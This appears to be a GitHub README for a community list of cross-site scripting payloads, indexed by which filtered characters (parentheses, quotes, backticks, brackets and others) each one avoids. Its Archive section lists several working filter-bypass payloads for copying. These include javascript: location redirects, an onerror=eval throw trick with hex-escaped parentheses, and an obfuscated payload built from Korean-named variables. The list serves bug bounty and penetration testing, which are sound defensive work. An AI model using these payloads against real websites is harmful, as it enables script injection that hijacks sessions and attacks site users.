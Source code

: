 # XSS-Payload-without-Anything
XSS Payload without Anything.

## What is XSS Payload without Anything
When I work for a company or bug bounty, the unexpected hurdle is a protection(xss filter) of special char in the JS(Javascript) area. So I am devising a way to easily solve these problems, and one of the processes is this document.



Let's collect a lot of thoughts and solve our problems.

## Concept
It is similar to "Payload all the things" in terms of collecting the payload, but I want to provide a list of payloads with special tag (without char, used char, other..)
I plan to make it easy to search and to show what characters (or what they are made of) are unusable.

### format

without char: `()` `,` `'` 
```
XSS Payload

// usedchar: 
// author: 
// description: 
```

### without char (Frequently filtered characters)
I have selected special characters that are often blocked.
```
( ) 
{ } 
, 
"
'
`
[ ]
\ 
/ 
; 
+ 
. 
=
```

### Usage
on Github.com
1) Ctrl + F > 
2) find your problem char 
3) XSS

on hahwul.com
comming soon

## Awesome payload
coming soon

## Archive
### without char: `()` `,` `"` `backtick` `\` `/` `[]` `{}` `.`
```
location='JaVaScRiPt:prompt'+document.location.hash[1]+'45'+document.location.hash[2]
```

### without char: `()` `{}` `,` `"` `backtick` `[]` `/` `+` `.` 
```
onerror=eval;throw'alert\x2845\x29';
```


### without char: `!backtick`
```
prompt`45`
```
### without char: 
```
location='javaScriPt:alert\x2845\x29'
```

### without char: 
```
([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'(45)')()
```

## Submit XSS Payloads
Add issue form or pull Request
```
XSS Payload:
WithOut: 
Description: 
```
or ...

Tweet with me(@hahwul)
